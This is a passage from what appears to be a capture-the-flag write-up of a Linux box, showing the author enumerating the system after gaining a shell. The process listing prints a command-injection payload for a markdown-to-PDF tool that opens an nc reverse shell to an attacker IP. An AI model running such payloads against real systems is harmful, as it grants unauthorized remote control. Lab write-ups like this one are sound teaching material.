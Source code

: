     
    
    # Config MySQL
    app.config['MYSQL_HOST'] = 'localhost'
    app.config['MYSQL_USER'] = 'DB_user'
    app.config['MYSQL_PASSWORD'] = 'DB_password'
    app.config['MYSQL_DB'] = 'app'
    app.config['MYSQL_CURSORCLASS'] = 'DictCursor' 
    

`/opt` has a single file, `backup.sh`:

    
    
    svc@noter:/opt$ ls
    backup.sh
    

This seems to be what created the backups I found over FTP, but it clearly
isn’t running often.

The FTP roots are in `/srv/ftp`, but there’s nothing there I didn’t already
have access to.

    
    
    svc@noter:/srv/ftp$ ls
    blue  ftp_admin
    

#### Processes

Running `ps auxww` doesn’t give any processes except those owned by svc:

    
    
    svc@noter:/srv/ftp/ftp_admin$ ps auxww
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    svc         1141  0.0  1.2 618460 51596 ?        Ssl  16:38   0:04 PM2 v5.2.0: God Daemon (/home/svc/.pm2)
    svc         1170  0.2  1.1 485808 45816 ?        Ssl  16:38   0:25 python3 /home/svc/app/web/app.py
    svc        12868  0.1  1.4 601756 58464 ?        Sl   19:40   0:00 node /home/svc/app/web/misc/md-to-pdf.js ---js ((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f")) ---RCE 9439
    svc        12875  0.0  0.0   2608   536 ?        S    19:40   0:00 /bin/sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f
    svc        12878  0.0  0.0   7372   516 ?        S    19:40   0:00 cat /tmp/f
    svc        12879  0.0  0.0   2608   596 ?        S    19:40   0:00 /bin/sh -i
    svc        12880  0.0  0.0   3332  1956 ?        R    19:40   0:00 nc 10.10.14.6 443
    svc        12881  0.0  0.0   7356  2272 ?        S    19:42   0:00 script /dev/null -c bash
    svc        12882  0.0  0.1  10060  5180 pts/0    Ss   19:42   0:00 bash
    svc        12936  0.0  0.0  10612  3320 pts/0    R+   19:49   0:00 ps auxww
    

Nothing interesting there. `/proc` is mounted with `hidepid=2`. To see what
else might be running, I’ll look in `/etc/systemd` to look for services.
There’s a lot here. I’ll start with MySQL, since I know that’s running:

    